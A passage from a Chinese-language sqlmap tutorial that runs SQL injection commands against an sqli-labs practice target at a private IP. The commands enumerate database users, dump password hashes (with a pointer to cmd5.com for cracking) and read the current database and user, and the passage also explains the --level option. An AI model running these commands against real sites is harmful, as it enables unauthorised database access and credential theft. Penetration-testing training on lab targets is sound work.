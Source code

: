 sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") --users

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F6dae20d1581455f48ebdc388ce2bfc01.png)

可以看到，当前用户账号是root

## 8、获取数据库用户的密码

该命令的作用是列出数据库用户的密码，如下所示。如果当前用户有读取包含用户密码的权限，SQLMap会先列举出用户，然后列出Hash,并尝试破解。

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") --passwords

可以看到，密码使用MySQL5加密，可以在www.cmd5.com中自行解密。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2Fea103072234d5f2ad4494fc60e6f9843.png)

## 9、获取当前网站数据库的名称

使用该命令可以列出当前网站使用的数据库，如下所示。

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") --current-db

从图中可以看到数据库是 security

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F19ae062fb55afef295746cb716e04386.png)

## 10、获取当前网站数据库的用户名称

使用该命令可以列出当前网站使用的数据库用户，如下所示。

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1")  --current-user

可以看到，用户是'root@localhost

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F10fb305489b40fbe4468e7d874684894.png)

# SQLmap进阶操作

## 1、--level 5:探测等级

参数--level 5指需要执行的测试等级，一共有5个等级(1~5),可不加

level,默认是1.SQLMap使用的Payload可以在xml/payloads.xml中看至，也可以根据相应的格式添加自己的Payload,其中5级包含的Payload最多，会自动破解出cookie、XFF等头部注入。当然，level 5的运行速度也比较慢。

这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。 总之，在不确定哪个Payload或参数为注入点时，为了保证全面性，建议使用高的level值，即5。

## 2、--is-dba:当前用户是否为管理权限
